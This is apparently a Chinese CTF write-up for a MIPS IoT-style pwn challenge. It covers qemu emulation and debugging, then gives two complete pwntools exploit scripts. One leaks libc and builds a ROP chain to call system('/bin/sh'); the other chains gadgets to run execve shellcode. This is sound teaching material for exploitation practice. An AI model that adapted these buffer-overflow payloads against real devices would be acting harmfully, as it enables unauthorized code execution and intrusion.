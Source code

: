 ### 夜行

本题目是一道简单的iot,**但是不是真正的iot**。区别在于真正的iot**很少可以**直接system("/bin/sh")来getshell。但是为了各位入门iot，这是一道非常好的题目。难点主要在于如何使用qemu运行程序，如何对其调试，如何学习一个新的架构的汇编和寄存器，如何构造一个不同架构的gadget。

参考之前arm架构的题目：https://www.cnblogs.com/9man/p/17834398.html

首先第一、二个问题。

```Bash
 # 不调试的如下。
  qemu-mipsel-static -L ./{这里写模拟的root文件夹} ./sec-shell
 # 调试的如下。
 qemu-mipsel-static -g 1234 -L ./{这里写模拟的root文件夹} ./sec-shell
```

调试的方法是，使用gdb-multiarch执行`target remote:1234`即可。

第三个问题，掌握好了x86的汇编之后，一通百通，万变不离其宗都是指令寄存器和几个参数寄存器，以及栈寄存器等等。网上一搜索了解了就好。第四个问题的解决在第三个的基础上。

可以使用`lw $t9, ($sp) ; lw $a0, 4($sp) ; jalr $t9`这个gadget。其中jalr t9就是跳转到t9寄存器，而他的值来自sp。然后a0是第一个参数的寄存器，相当于x86的rdi。这样就可以构造system("/bin/sh")了。这个exp是jt的。

漏洞点和日行是一样的了。这里还要注意输入ps可以直接返回libc地址。

```Python
#!/bin/python3

from pwn import *

context.log_level = 'debug'
context.os = 'linux'
#context.arch = 'amd64'
context.timeout = 3

libc = ELF("./libc.so.6")

context.arch = 'mips'
context.bits = 32
c = remote("localhost", 46581)

#c = gdb.debug("./sec-shell", "b*0x401360\nset follow-fork-mode parent\nc")
c.sendlineafter(b'$', b'ps')

c.recvuntil(b'base:0x')
puts = int(c.recv(8),16)
libcbase = puts - libc.sym['puts']
success(f"libcbase = {hex(libcbase)}")

system = libcbase + libc.sym['system']
binsh = libcbase + next(libc.search(b'/bin/sh'))
success(f"binsh = {hex(binsh)}")
rop = libcbase + 0x000fb770
#lw $t9, ($sp) ; lw $a0, 4($sp) ; jalr $t9

c.sendlineafter(b'$', b'login')

for i in range(5):
    c.sendlineafter(b'd:', cyclic(210) + p32(rop) + p32(system) + p32(binsh))

c.interactive()
```

前面提到，如果是真实的iot场景，是不能直接用system("/bin/sh")获得shell的，下面给出一个ret2shellcode版本的示例，虽然最后执行的也是execve("/bin/sh",0,0)。有兴趣的可以来挑战一下。这里还要注意特殊字符过滤。

```Python
from evilblade import *

set("./docker/iot-shell")
libset("./docker/sysroot/lib/libc.so.6")
rsetup("127.0.0.1", 70)
if args.G:
    up(["qemu-mipsel-static","-g","1234","-L","./docker/sysroot/","./docker/iot-shell"])
    # pause()
else:
    up(["qemu-mipsel-static","-L","./docker/sysroot/","./iot-shell"])

# context(os='linux', arch='mips', log_level='debug')
#
# mips shellcode pwn
# gadget("s1",-1,0,1)
# pause()

get_libc=b"ps"
sym("login")
sl(get_libc)
ru("base:")
base = getbase(getx(0,-1),"puts")

# reg_gadget = gadget("lw \$s6, 0x\w\w(\$sp)",553,base,1)+4
reg_gadget = base + 0x0007a24c + 4
#\w是匹配数字,控制s7来进行ret2shellcode
#+4后略过sw指令
#0x0007a24c #553 sw $v0, 0x18($s1) ; lw $ra, 0x34($sp) ; lw $s6, 0x30($sp) ; lw $s5, 0x2c($sp) ; 
#lw $s4, 0x28($sp) ; lw $s3, 0x24($sp) ; lw $s2, 0x20($sp) ; lw $s1, 0x1c($sp) ; lw $s0, 0x18($sp) ; jr $ra ; addiu $sp, $sp, 0x38

# sp_to_s5 = gadget(": addiu \$s5, \$sp",11,base,1)
sp_to_s5 = base + 0x0013dfa8
#0x0013dfa8 #11 addiu $s5, $sp, 0x18 ; move $a1, $s5 ; move $t9, $s6 ; jalr $t9 ; move $a0, $s2

# s5_to_pc = gadget(": move \$t9, \$s5",110,base,1)
s5_to_pc = base + 0x0009edc8
#劫持pc到栈
#0x0009edc8 #110 move $t9, $s5 ; sw $s6, 0x128($sp) ; jalr $t9 ; addu $fp, $fp, $v0

regs =  p32(0xdeadbeef)#s0
regs +=  p32(0xdeadbeef)#s1
regs +=  p32(0xdeadbeef)#s2
regs +=  p32(0xdeadbeef)#s3
regs +=  b"/bin/sh;" #s4 s5
regs += p32(s5_to_pc)#s6
regs += p32(sp_to_s5) #ra

assembly = """
    lui $t6,0x6e69
    ori $t6, $t6, 0x622f
    sw $t6, -8($sp)
    addiu $a0, $sp, -8
    lui $t6,0x1169
    ori $t6, $t6, 0x7430
    lui $t7,0x1101
    ori $t7, $t7, 0x071f
    xor $t6, $t6, $t7
    sw $t6, -4($sp)
    lw $a1, 290($sp)
    lw $a2, 290($sp)
    ori $v0, $zero, 0xfab
    syscall 0xf0f0f
"""

shellcode = asm(assembly, arch='mips', os='linux')
if b"\x20" in shellcode or b"\x00" in shellcode or b"\t" in shellcode or b"\r" in shellcode:
    print("no!!!")
    d(shellcode)
    raise EOFError

d(shellcode)
sl(b"login")
sl(cyclic(0x2))
sl(cyclic(0x2))
sl(cyclic(0x2))
sl(cyclic(0x2))

payload = cyclic(210) + p32(reg_gadget) 
payload += cyclic(24) + regs 
payload += cyclic(24) + shellcode 
d(payload)
sl(payload)

ia()
```

![img](https://h9505dssdj.feishu.cn/space/api/box/stream/download/asynccode/?code=N2IxN2JmOGQxM2IwZTU2NmE4MWFhMjBkOGRlMmM3OWFfQUhDaXExSkZ5VThGQ1hXSmNCOWlrUzRsOWppU1hTcVRfVG9rZW46SWtCUmIwbDQ0bzVVNGt4NjFQY2NJQ1NTbmxkXzE3NDI0NTkyODA6MTc0MjQ2Mjg4MF9WNA)